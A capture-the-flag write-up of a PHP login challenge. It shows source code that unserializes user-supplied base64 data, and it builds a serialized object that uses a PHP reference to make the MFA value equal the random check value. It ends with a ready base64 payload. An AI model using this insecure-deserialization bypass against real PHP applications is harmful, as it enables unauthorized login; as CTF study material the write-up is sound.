



The challenge is a web challenge where the source code is known.



The website is a login form where you need to supply the username, password and the MFA token to get the flag.

This is the source code of the `index.php` file. The interesting part of this is that it takes user input and serializes it and supplies it to the User class.

```jsx
<?php

include 'class/User.php';

if (!empty($_POST))
{
	// serialise POST data for easy logging
	$loginAttempt = serialize((object)$_POST);

	// log access
	//Logger::log(Logger::SENSITIVE, 'Login attempt: ' . $loginAttempt);

	// Hand over to federation login
	// TODO currently just a mock up
	// TODO encrypt information to avoid loos of confidentiality
	header('Location: /?userdata=' . base64_encode($loginAttempt));
	die();
}

if (!empty($_GET) && isset($_GET['userdata']))
{
	// prepare notification data structure
	$notification = new stdClass();

	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
		else
		{
			throw new InvalidArgumentException('Invalid credentials or MFA token value');
		}
	}
	catch (Exception $e)
	{
		$notification->type = 'danger';
		$notification->text = $e->getMessage();
	}
}

include 'template/home.html';
```

Checking the User.php file we see that we need to bypass three checks.

- Username check
- Password check
- MFA check.

```jsx
<?php

final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

The first check is easy, set the username to `D0loresH4ze`.

A quick google search of the hash tells us that the password is `rasmuslerdorf`.

The third check is the MFA which is a bit harder to bypass.

```jsx
$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
return (int)$this->userData->mfa === $this->userData->_correctValue;
```

We control both values, `$this->userData->_correctValue` and `$this->userData->mfa`.  Even if we control the `_correctValue`, the value is overwritten by a random number before the check.

Also the code is using `===` and a strict type cast to int for the `mfa`. This means type juggling is out of the equation..

How can we bypass the check? We can use a object reference to automatically set the mfa value based on the correctValue. This is done using the following syntax in PHP

```jsx
$user->mfa =& $user->_correctValue;
```

The final code to generate the payload is:

```jsx
class User
{
    public $username = "D0loresH4ze";
    public $password = "rasmuslerdorf";
    public $mfa = 13;
    public $_correctValue;
}

$user = new User();
//$user->_correctValue =& $user->_mfa;
$user->mfa =& $user->_correctValue;

echo base64_encode(serialize($user));
```

```jsx
Tzo0OiJVc2VyIjo0OntzOjg6InVzZXJuYW1lIjtzOjExOiJEMGxvcmVzSDR6ZSI7czo4OiJwYXNzd29yZCI7czoxMzoicmFzbXVzbGVyZG9yZiI7czozOiJtZmEiO2k6MTtzOjEzOiJfY29ycmVjdFZhbHVlIjtSOjQ7fQ==
```

